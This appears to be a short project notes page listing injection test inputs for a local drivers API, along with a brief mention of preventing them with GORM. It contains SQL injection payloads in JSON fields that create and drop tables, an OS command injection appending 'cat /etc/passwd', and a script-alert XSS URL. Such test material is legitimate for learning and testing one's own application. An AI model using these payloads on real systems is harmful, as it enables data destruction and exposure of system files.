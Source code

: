 INPUT SQL INJECTION CREATE TABLE
```
ENDPOINT: POST /drivers
{
  "driver_id": 30,
  "driver_license": "string', 'string', 'string'); CREATE TABLE malicious_table (id INT);--",
  "driver_name": "string",
  "home_town": "string"
}
```



INPUT SQL INJECTION DROP TABLE
```
ENDPOINT: POST /drivers
{
  "driver_id": 31,
  "driver_license": "string', 'string', 'string'); DROP TABLE malicious_table;--",
  "driver_name": "string",
  "home_town": "string"
}
```

PREVENT SQL INJECTION USE GORM AND VERIFY PARAMEtER
```
ENDPOINT: PUT /drivers/1
{
  "driver_id": 1,
  "driver_license": "string",
  "driver_name": "string",
  "home_town": "string'); DROP TABLE malicious_table;--"
}
```

OS COMMAND INJECTION - Show all password in server
```
ENDPOINT: GET /list/path=controller;cat /etc/passwd
```

CODE COMMAND INJECTION 

```
ENDPOINT: http://localhost:8080/show?input=data%3Cscript%3Ealert(%22You%20have%20been%20hacked%22)%3C/script%3E
```